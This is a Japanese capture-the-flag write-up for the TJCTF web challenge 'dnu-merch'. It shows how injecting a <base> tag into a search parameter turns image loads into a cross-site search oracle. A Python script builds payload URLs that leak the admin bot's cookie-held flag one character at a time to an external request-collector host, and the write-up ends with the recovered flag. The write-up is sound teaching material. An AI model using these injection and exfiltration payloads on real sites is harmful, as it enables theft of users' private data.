


# dnu-merch:web:XXXXpts
So, since everybody got into DNU during the RD round, we can all buy merch. However, I didn't get honors so I can't buy their super secret flag. I heard that the admin of the site is actually an honors student at DNU, pls sice me.  
[dnu-merch.tjc.tf](https://dnu-merch.tjc.tf/)  
[Admin Bot](https://admin-bot.tjctf.org/dnu-merch)  

Downloads  
[admin-bot.js](admin-bot.js)　[server.zip](server.zip)  

# Solution
サイトとAdmin Botとソースが渡される。  
アクセスすると商品を検索できるサイトのようだ。  
DNU Merch Catalog  
[site1.png](site/site1.png)  
プレースホルダーにある`Sweatshirt`を検索すると写真付きの商品がヒットした。  
  
頭文字である`S, T`と検索すると、ヒットするものすべてが表示される。  
どうやらcookieに商品一覧が入っており、それを検索しているようだ。  
  
Admin BotがあるのでXSSを狙う。  
`S, <s>atoki`のように商品がヒットする場合にタグを挿入することに成功した。  
  
次にCSPを見てみる。  
```html
~~~
    <meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://* http://* 'self'; child-src 'none'; object-src 'none';">
~~~
```
metaタグにて指定されており、imgが不自然に緩いがscriptやcssでの攻撃は狙えそうにない。  
Admin Botのふるまいを見てみると以下のようであった。  
```js
~~~
export default {
  id: 'dnu-merch',
  name: 'dnu-merch',
  timeout: 154000,
  handler: async (url, ctx) => {
    const page = await ctx.newPage();
    await page.setCookie({
      domain: 'dnu-merch.tjc.tf',
      name: 'items',
      value: JSON.stringify([{ title: flag.trim(), cost: 100000 }]),
      secure: true,
      sameSite: 'None',
    });
    await page.goto(url, { timeout: 3000, waitUntil: 'domcontentloaded' });
    await sleep(150000);
  },
};
```
`flag`を`title`にした商品をAdmin Botのcookieに追加し、送信されたURLにアクセスするようだ。  
つまり、Admin Botにのみ存在する商品名をリークする必要がある。  
ひとまず`Sweatshirt`を`flag`とみたてて商品表示部分を見てみる。  
```html
~~~
<div class="result-card">
  <div class="img-bg">
    
  </div>
  <h3 class="result-card-title">Sweatshirt</h3>
  <h5 class="result-card-cost">$30</h5>
</div>
~~~
```
titleにある商品名を取得するのは難しい。  
ここで、imgが相対パスで記述されていることに気づく。  
CSPに指定のなかったbaseをタグとして挿入すれば、任意のサイトのimgを表示させることができる。  
挿入するタグは`<base href="https://satoki.example.com/">`のようになる。  
すると画像のフルパスは`https://satoki.example.com/public/merch/dnu_sweater.png`となる。  
画像を外部から取得できることは一見すると何も意味がないと感じるが、ここで検索で商品がヒットしない場合には画像が表示されないことを思い出す。  
つまり、画像へのリクエストが来るかどうかで検索でヒットしたかどうかを外部から知ることができる。  
そして検索は頭文字など部分一致でもヒットしていた。  
これらを用いてAdmin Bot上から一文字ずつ商品名をリークできる。  
商品名がflagになっているはずなので`tjctf{X, <base href="https://xxxxxxxxxxxxx.x.pipedream.net/">`の`X`を変更してAdmin Botに投げる。  
画像へのリクエストが来た場合、検索にヒットしているものがあるため、文字が確定する。  
ここではリクエストの取得に[RequestBin.com](https://requestbin.com/)を用いた。  
手動で一文字ずつ行うのはつらいので、以下のleak.pyで文字を大雑把に予測し、その中から手動で見つけ出す手法をとる。  
```python
flag = "tjctf{"
recv_url = "https://xxxxxxxxxxxxx.x.pipedream.net"
guess_list = ["abcdefg","hijklmn","opqrstu","vwxyzAB","CDEFGHI","JKLMNOP","QRSTUVW","XYZ0123","456789_"]

for i in guess_list:
    print(f"https://dnu-merch.tjc.tf/search?search=", end="")
    for j in i:
        print(f"{flag}{j},%20", end="")
    print(f"%3Cbase%20href=%22{recv_url}%2F{flag}%2F{i}%2F%22%3E")
```
実行する。  
```bash
$ python leak.py
https://dnu-merch.tjc.tf/search?search=tjctf{a,%20tjctf{b,%20tjctf{c,%20tjctf{d,%20tjctf{e,%20tjctf{f,%20tjctf{g,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2Fabcdefg%2F%22%3E
https://dnu-merch.tjc.tf/search?search=tjctf{h,%20tjctf{i,%20tjctf{j,%20tjctf{k,%20tjctf{l,%20tjctf{m,%20tjctf{n,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2Fhijklmn%2F%22%3E
https://dnu-merch.tjc.tf/search?search=tjctf{o,%20tjctf{p,%20tjctf{q,%20tjctf{r,%20tjctf{s,%20tjctf{t,%20tjctf{u,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2Fopqrstu%2F%22%3E
https://dnu-merch.tjc.tf/search?search=tjctf{v,%20tjctf{w,%20tjctf{x,%20tjctf{y,%20tjctf{z,%20tjctf{A,%20tjctf{B,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2FvwxyzAB%2F%22%3E
https://dnu-merch.tjc.tf/search?search=tjctf{C,%20tjctf{D,%20tjctf{E,%20tjctf{F,%20tjctf{G,%20tjctf{H,%20tjctf{I,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2FCDEFGHI%2F%22%3E
https://dnu-merch.tjc.tf/search?search=tjctf{J,%20tjctf{K,%20tjctf{L,%20tjctf{M,%20tjctf{N,%20tjctf{O,%20tjctf{P,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2FJKLMNOP%2F%22%3E
https://dnu-merch.tjc.tf/search?search=tjctf{Q,%20tjctf{R,%20tjctf{S,%20tjctf{T,%20tjctf{U,%20tjctf{V,%20tjctf{W,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2FQRSTUVW%2F%22%3E
https://dnu-merch.tjc.tf/search?search=tjctf{X,%20tjctf{Y,%20tjctf{Z,%20tjctf{0,%20tjctf{1,%20tjctf{2,%20tjctf{3,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2FXYZ0123%2F%22%3E
https://dnu-merch.tjc.tf/search?search=tjctf{4,%20tjctf{5,%20tjctf{6,%20tjctf{7,%20tjctf{8,%20tjctf{9,%20tjctf{_,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2F456789_%2F%22%3E
```
Admin Botにこれらを投げると、`/tjctf%7B/vwxyzAB/undefined`とリクエストが到達する。  
`wxyzAB`のどれかとわかるので、一つずつ確認すればよい。  
すると
```
https://dnu-merch.tjc.tf/search?search=tjctf{w,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{%2Fw%2F%22%3E
```
にて`/tjctf%7B/w/undefined`が到達したため、一文字目は`w`であることがわかった。  
これを繰り返し、すべてマッチしない場合には`}`となる。  
最終的に
```
https://dnu-merch.tjc.tf/search?search=tjctf{wtf_not_h0nors_14452dbc,%20%3Cbase%20href=%22https://xxxxxxxxxxxxx.x.pipedream.net%2Ftjctf{wtf_not_h0nors_14452dbc%2F}%2F%22%3E
```
にて`/tjctf%7Bwtf_not_h0nors_14452dbc/%7D/undefined`が到達し、flagを取得することができた。  

## tjctf{wtf_not_h0nors_14452dbc}